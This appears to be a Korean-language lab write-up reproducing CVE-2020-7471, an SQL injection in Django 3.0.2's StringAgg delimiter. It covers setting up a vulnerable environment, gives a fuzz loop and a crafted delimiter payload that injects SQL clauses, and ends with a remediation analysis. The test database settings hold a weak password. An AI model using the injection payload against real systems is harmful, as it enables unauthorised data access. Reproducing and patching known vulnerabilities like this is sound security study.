 + # CVE-2020-7471

  ## 1. 환경 구성
  + **Ubuntu 20.04 버전**

  + **Django 3.0.2 설치**

    + pip install django~=3.0.2

      

  + **postgresql 13 설치**
    
    + sudo apt-get update
    
    + sudo apt show postgresql

    + sudo apt -y install postgresql postgresql-contrib
    
    + /etc/init.d/postgresql start
    
      
    
  + **가상환경 구성**
    + virtualenv newenv
    
    + source newenv/bin/activate
    
    + pip install django~=3.0.2

    + django-admin --version
    
    + deactivate
    
      
    
  + **psycopg2 설치**
    + pip install psycopg2==2.8.6
    
      
    
  + **setting.py 설정**  
  ```
  #setting.py
  
  DATABASES = {
      'default': {
          'ENGINE': 'django.db.backends.postgresql',
          'NAME': 'hxd',         
          'USER': 'postgres',
          'PASSWORD': '123456',
          'HOST': '127.0.0.1',
          'PORT': '5432',
      }
  }
  ```
  

  + **마이그레이션**
  ```
  #DB에 적용하는 과정
  python3 manage.py migrate
  
  #test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
  python3 manage.py makemigrations test_app
  
  #test_app 앱을 DB에 적용하는 과정
  python3 manage.py migrate test_app
  ```
  

  + **DB 생성**
    
    + CREATE DATABASES test
    
    + DB 조회: \c test

    + 테이블 조회: \d
    
    + 컬럼 조회: select * from vul_app_info;
    
      
      
      ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

  --------------------------------------------------------------------------------------------------------------------------
  

  ## 2. PoC

  ### 내부 파이썬 환경에서만 테스트 
  + **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
  ```
  for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
      results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
      for e in results:
          pass
  ```
  

   + **정상적인 SQL 구문 출력**
  ```
  Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
  ```

     ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)

  


    + **SQL Injection 구문**
  ```
  Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
  ```

     ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)

  


  + **python CVE-2020-7471.py**

  ![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


  ---------------------------------------------------------------------------------------------------------------------

  ## 3. 대응방안

  

  + **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

    ![2](https://user-images.githubusercontent.com/89399749/130898422-3cf70a46-237a-497c-9546-792e2021fd2a.png)

  


  + **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

  ![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)  

  

  + **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

  ![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)

  


  + **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


  ![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)

  


  + **delimiter_expr = Value(str(delimiter))**
    + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

  ![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

  ---------------------------------------------------------------------------------------------------------------------

  ## 4. 참조
  + https://github.com/Safeman/CVE-2020-7471
  + https://www.heibai.org/1661.html